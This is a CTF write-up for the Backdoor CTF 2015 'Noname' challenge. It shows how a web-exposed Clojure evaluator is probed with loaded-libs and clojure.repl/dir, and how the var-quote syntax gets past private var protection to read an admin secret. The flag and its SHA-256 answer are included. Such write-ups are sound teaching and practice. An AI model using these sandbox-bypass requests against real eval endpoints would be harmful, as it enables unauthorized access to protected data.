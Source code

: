 ```yaml
---
layout: post
title: "Backdoor CTF 2015 - Noname Writeup"
date: 2015-04-03 00:42:36 +0430
comments: false
categories: ctf, clojure, sandbox
---
```



**Backdoor2015 NONAME Writeup**  

**Point = 200**  
**Category = Exploit**  
**Description : **  

> Intrestingly enough, even though it was not expected, Chintu found a cool website to play with, though he can't get the flag. Can you? Visit [this](https://agile-garden-1672.herokuapp.com/). Submit the SHA-256 hash of the flag obtained. 
> 
> Welcome to Noname! You can see an intrepreter above
Get admin's flag and admin's secret. Remember admin is one of the people
Submit sha-256 of secret and flag joined
Get admin's flag and admin's secret. Remember admin is one of the people
Submit sha-256 of secret and flag joined

We could see  see an intrepreter like this : 
![enter image description here](http://up.ashiyane.org/images/7f689wqyxbbwiaxbwl.png)
so first for testing script give "1" as input it will retrun "1" again ..
lets check whats going on in browser run firebug and check : 

![enter image description here](http://up.ashiyane.org/images/2fmqsv03ko2qatsw10tq.png)

Its using JSON with eval.json at this [LINK](https://agile-garden-1672.herokuapp.com/eval.json?expr=1) .
Lets see whats happen if we execute our codes directly : 
[https://agile-garden-1672.herokuapp.com/eval.json?expr=*](https://agile-garden-1672.herokuapp.com/eval.json?expr=*)
And the response : 

>    {"expr":"*","result":"#<core$_STAR_ clojure.core$_STAR_@5ca69ca5>"}
 cool , Its Clojure and * is built-in function in "clojure.core"
 lets google clojure.core and find all functions of this library :
[http://clojure.github.io/clojure/clojure.core-api.html](http://clojure.github.io/clojure/clojure.core-api.html)
this link has all built-in functions of this library . after little searching found (loaded-libs) function .
more googling about clojure i understood that for using function out syntax shoud be like 
(function) . for loaded-libs it should be (loaded-libs) and response : 

>    {"expr":"(loaded-libs)","result":"#{bultitude.core cheshire.core cheshire.factory cheshire.generate cheshire.parse clj-time.core clj-time.format clj-yaml.core clojail.core clojail.jvm clojail.testers clojure.core.cache clojure.core.incubator clojure.core.memoize clojure.data.priority-map clojure.java.io clojure.main clojure.repl clojure.set clojure.stacktrace clojure.string clojure.template clojure.test clojure.tools.macro clojure.tools.reader clojure.tools.reader.default-data-readers clojure.tools.reader.edn clojure.tools.reader.impl.ExceptionInfo clojure.tools.reader.impl.commons clojure.tools.reader.impl.utils clojure.tools.reader.reader-types clojure.walk clout.core compojure.core compojure.handler compojure.response compojure.route flatland.useful.fn flatland.useful.seq flatland.useful.utils hiccup.compiler hiccup.core hiccup.def hiccup.element hiccup.middleware hiccup.page hiccup.util noir.cookies noir.request noir.response noir.session noir.util.crypt noir.util.middleware noir.validation noname.models.eval noname.people.admin noname.server noname.views.eval noname.views.home ring.adapter.jetty ring.middleware.content-type ring.middleware.cookies ring.middleware.file-info ring.middleware.flash ring.middleware.format ring.middleware.format-params ring.middleware.format-response ring.middleware.head ring.middleware.keyword-params ring.middleware.multipart-params ring.middleware.multipart-params.temp-file ring.middleware.nested-params ring.middleware.params ring.middleware.session ring.middleware.session.memory ring.middleware.session.store ring.util.codec ring.util.io ring.util.mime-type ring.util.response ring.util.servlet ring.util.time serializable.fn}"}

Found good things : 

    noname.models.eval noname.people.admin noname.server noname.views.eval noname.views.home


specialy "noname.people.admin" because of hint of question: 

> Remember admin is one of the people

Its loaded , so we can use it in our codes but we dont know functions and classes
little googling found "clojure.repl/dir" it can list classes , functions ... : 
[https://agile-garden-1672.herokuapp.com/eval.json?expr=(clojure.repl/dir noname.people.admin)](https://agile-garden-1672.herokuapp.com/eval.json?expr=%28clojure.repl/dir%20noname.people.admin%29)

and response :

>    {"expr":"(clojure.repl/dir noname.people.admin)","result":"flag\nnil"}

oh . "flag" .... lets check if its public : 
[https://agile-garden-1672.herokuapp.com/eval.json?expr=%28print%20noname.people.admin/flag%29](https://agile-garden-1672.herokuapp.com/eval.json?expr=%28print%20noname.people.admin/flag%29)

 yes , its public , we can use it in interpreter : 
![enter image description here](http://up.ashiyane.org/images/b95z537owt2a0cmrm1ca.png)
 
 got second part of flag : 
 

    Give me some code:
> (noname.people.admin/flag)
> Ma flag is : _b7w_1_l1k3_60l4n6_700nil
>  

We need first part of flag called admin's secret , let test  (noname.people.admin/secret)
and response id error : 

>    {"error":true,"message":"java.lang.IllegalStateException: var: noname.people.admin/secret is not public"}

it private , and because of namespace we cant use it also we cant switch our namespace becuase "ns" is closed by Java.Security...

lets google and find a way for bypass :)
found this http://christophermaier.name/blog/2011/04/30/not-so-private-clojure-functions

awesome :D

do what it said :  
![enter image description here](http://up.ashiyane.org/images/lqo0cppgkh89dci505u1.png)

and its the first part of the flag :

> (#'noname.people.admin/secret)
> "Ma secret is: 1_4m_50_cl0jur3d_y0u_c4n7_3v3n_7h1nk"
> 
> Flag Format = sha256(secret+flag)
> sha256(1_4m_50_cl0jur3d_y0u_c4n7_3v3n_7h1nk_b7w_1_l1k3_60l4n6_700)
> **147fadb708195779c6414a0ce9171bc4b966e03a9818383eabafa0e71a240d5a**

200 points ;)

WriteUp By PARSA
